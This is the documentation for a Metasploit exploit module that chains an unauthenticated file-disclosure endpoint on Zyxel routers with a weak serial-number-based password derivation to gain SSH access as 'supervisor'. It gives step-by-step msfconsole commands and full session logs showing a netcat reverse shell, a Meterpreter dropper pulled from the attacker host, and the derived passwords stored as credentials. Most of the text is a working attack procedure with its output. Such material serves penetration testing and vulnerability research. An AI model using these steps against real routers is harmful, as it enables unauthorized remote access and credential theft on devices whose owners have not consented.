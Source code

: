 ## Vulnerable Application

This module exploits multiple vulnerabilities in the `zhttpd` binary (/bin/zhttpd) and `zcmd` binary (/bin/zcmd).
It is present on more than 40 Zyxel routers and CPE devices.
The remote code execution vulnerability can be exploited by chaining the local file disclosure (LFI) vulnerability
in the `zhttpd` binary that allows an unauthenticated attacker to read the entire configuration of the router
via the vulnerable endpoint `/Export_Log?/data/zcfg_config.json`.

With this information disclosure, the attacker can determine if the router is reachable via `ssh` and use
the second vulnerability in the `zcmd` binary to derive the `supervisor` password by exploiting a weak password
derivation algorithm using the device serial number.

After exploitation, an attacker will be able to execute any command as user `supervisor`.

For more info, read this article: [Zyxel router chained RCE using LFI and Weak Password Derivation Algorithm (No CVE)](https://attackerkb.com/topics/dkw2Y2zdyN/zyxel-router-chained-rce-using-lfi-and-weak-password-derivation-algorithm-no-cve) on [attackerkb.com](url).

Installing a vulnerable test bed requires a vulnerable Zyxel router.
This module has been tested against a vulnerable Zyxel router with the specifications listed below:

* Zyxel router VMG3625-T20A
* Firmware: V5.30(ABQC.3)C0

## Verification Steps

1. Start `msfconsole`
1. `use exploit/linux/http/zyxel_lfi_unauth_ssh_rce`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0=unix command, 1=Linux dropper, 2=Interactive SSH>`
1. `exploit`
1. You should be able to get a session based on the target setting.


## Options
Option `STORE_CRED` can be set to store the derived credentials (supervisor) in the database of Metasploit.
Default setting is `true`.

### Advanced options
Option `SSH_DEBUG` can be set to enable SSH debugging output (Extreme verbosity!). Default is `false`.
Option `SSH_TIMEOUT` can be used to specify the maximum time to negotiate a SSH session. Default is 30 seconds.
Option `ConnectTimeout` where you can specify the maximum number of seconds to establish a TCP connection. Default is 10 seconds.

## Scenarios

### Zyxel router VMG3625-T20A - Netcat reverse shell
```
msf exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > options

Module options (exploit/linux/http/zyxel_lfi_unauth_ssh_rce):

   Name        Current Setting         Required  Description
   ----        ---------------         --------  -----------
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      192.168.1.1             yes       The target host(s), see https://docs.metasploit.com/docs/using-metasp
                                                 loit/basics/using-metasploit.html
   RPORT       8080                    yes       The target port (TCP)
   SSL         false                   no        Negotiate SSL/TLS for outgoing connections
   SSLCert                             no        Path to a custom SSL certificate (default is randomly generated)
   STORE_CRED  false                   no        Store credentials into the database.
   URIPATH                             no        The URI to use for this exploit (default is random)
   VHOST                               no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on th
                                       e local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.2      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command



View the full module info with the info, or info -d command.

msf exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > set target 0
target => 0
msf exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Hardware:VMG3625-T20A Firmware:V5.30(ABQC.3)C0 Serial:S000Y00000000
[+] The target is vulnerable.
[*] Hardware:VMG3625-T20A Firmware:V5.30(ABQC.3)C0 Serial:S000Y00000000
[*] SSH service is available and SSH Port 22 is open. Continue to login.
[*] Derived supervisor password using SerialNumMethod2: 2dc1a078
[*] Derived supervisor password using SerialNumMethod3: 58Pxnwdefr
[*] Authentication with derived supervisor password using Method3 is successful.
[*] Executing Unix Command for cmd/unix/reverse_netcat
[*] Command shell session 1 opened (192.168.1.2:4444 -> 192.168.1.1:51236) at 2023-04-18 19:57:49 +0000

uname -a
Linux VMG3625-T20A 2.6.36 #7 SMP Mon Aug 27 19:59:01 CET 2018 mips GNU/Linux
id
uid=12(supervisor) gid=12 groups=12
exit

[*] 192.168.1.1 - Command shell session 1 closed.
msf exploit(linux/http/zyxel_lfi_unauth_ssh_rce)
```

### Zyxel router VMG3625-T20A - Linux Dropper Meterpreter session
```
msf exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > set target 1
target => 1
msf exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Hardware:VMG3625-T20A Firmware:V5.30(ABQC.3)C0 Serial:S000Y00000000
[+] The target is vulnerable.
[*] Hardware:VMG3625-T20A Firmware:V5.30(ABQC.3)C0 Serial:S000Y00000000
[*] SSH service is available and SSH Port 22 is open. Continue to login.
[*] Derived supervisor password using SerialNumMethod2: 2dc1a078
[*] Derived supervisor password using SerialNumMethod3: 58Pxnwdefr
[*] Authentication with derived supervisor password using Method3 is successful.
[*] Executing Linux Dropper for linux/mipsbe/meterpreter/reverse_tcp
[*] Command Stager progress -  42.72% done (499/1168 bytes)
[*] Command Stager progress -  85.36% done (997/1168 bytes)
[*] Sending stage (1299256 bytes) to 127.0.0.1
[*] Command Stager progress - 100.00% done (1168/1168 bytes)
[*] Meterpreter session 2 opened (192.168.1.2:4444 -> 192.168.1.1:40364) at 2023-04-18 20:00:59 +0000

meterpreter > getuid
Server username: supervisor
meterpreter > sysinfo
Computer     : 192.168.1.1
OS           :  (Linux 2.6.36)
Architecture : mips
BuildTuple   : mips-linux-muslsf
Meterpreter  : mipsbe/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.1.1 - Meterpreter session 2 closed.  Reason: User
msf exploit(linux/http/zyxel_lfi_unauth_ssh_rce)
```

### Zyxel router VMG3625-T20A - Interactive SSH session and storing the credentials of user supervisor
```
msf exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > set target 2
target => 2
msf exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > set STORE_CRED true
STORE_CRED => true
msf exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > exploit

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Hardware:VMG3625-T20A Firmware:V5.30(ABQC.3)C0 Serial:S000Y00000000
[+] The target is vulnerable.
[*] Hardware:VMG3625-T20A Firmware:V5.30(ABQC.3)C0 Serial:S000Y00000000
[*] SSH service is available and SSH Port 22 is open. Continue to login.
[*] Derived supervisor password using SerialNumMethod2: 2dc1a078
[*] Derived supervisor password using SerialNumMethod3: 58Pxnwdefr
[*] Authentication with derived supervisor password using Method3 is successful.
[*] Credentials for user:supervisor are added to the database...
[*] SSH session 3 opened (192.168.1.2:34493 -> 192.168.1.1:22) at 2023-04-18 20:07:36 +0000

uname -a
Linux VMG3625-T20A 2.6.36 #7 SMP Mon Aug 27 20:08:48 CET 2018 mips GNU/Linux
id
uid=12(supervisor) gid=12 groups=12
exit

[*] 192.168.1.1 - SSH session 3 closed.  Reason: User exit
msf exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > creds -u supervisor
Credentials
===========

host           origin         service          public      private   realm  private_type  JtR Format
----           ------         -------          ------      -------   -----  ------------  ----------
192.168.1.1    192.168.1.1    8080/tcp (http)  supervisor  58Pxnwdefr       Password

msf exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > 
```

## Limitations
No limitations identified.
